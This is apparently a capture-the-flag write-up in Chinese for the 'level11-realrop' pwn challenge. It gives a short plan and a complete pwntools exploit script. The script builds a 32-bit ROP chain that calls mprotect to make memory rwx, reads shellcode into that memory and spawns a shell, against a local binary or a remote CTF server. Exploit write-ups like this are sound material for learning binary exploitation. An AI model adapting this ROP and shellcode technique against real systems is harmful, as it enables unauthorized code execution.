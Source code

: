 # level11-realrop

### 思路:
   1. 用mprotect开启一块rwx的内存段
   2. 将shellcode注入这块内存段并执行
   
### 实现细节:
   1. 控rax寄存器: 利用读或写操作，写出或读入k个bytes,就会将eax设置为k
   2. 利用add esp,20h的gadget控制rop链
```python

from pwn import *
context.log_level="debug"
pwn_file="./level11-realrop"
elf=ELF(pwn_file)
if len(sys.argv)==1:
    r=process(pwn_file)
    pid=r.pid
else:
    r=remote("pwn.sixstars.team",22011)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    pause()

inject_pos = 0x8048000
run_pos = inject_pos + 0x500

ebx_val = inject_pos
ecx_val = 0x1000
edx_val = 7
# read-->eax ; stack buff ; ris_jump;  read sh ; jump to it  
read_func = 0x80480FD
ris_jump  = 0x8048102
next_jump = 0x8048198
write_func = 0x8048115
pudlen= 0x20-3*4

payload =  'a'*0x10 
payload+=  p32(write_func) + p32(next_jump)
payload+=  p32(1) + p32(0x8048000) + p32(125) + 'a'*pudlen
payload+=  p32(ris_jump)+ p32(next_jump) 
payload+=  p32(ebx_val) + p32(ecx_val) + p32(edx_val) + 'a'*pudlen
payload+=  p32(read_func) + p32(run_pos)
payload+=  p32(0) + p32(run_pos) + p32(0x80)

print len(payload)
r.recv()
r.sendline(payload)
r.recv()

#r.sendline('a'*124)
sh = asm(shellcraft.sh())
r.sendline(sh)
r.interactive()
```
